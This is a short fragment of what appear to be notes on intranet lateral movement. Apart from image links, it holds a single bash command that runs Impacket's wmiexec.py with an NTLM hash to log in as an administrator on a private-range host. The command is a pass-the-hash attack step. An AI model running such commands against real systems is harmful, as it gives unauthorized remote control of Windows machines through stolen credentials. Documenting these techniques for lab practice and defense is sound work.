 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2011.png)

```bash
# wmiexec.py
python3 wmiexec.py -hashes :96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137
```
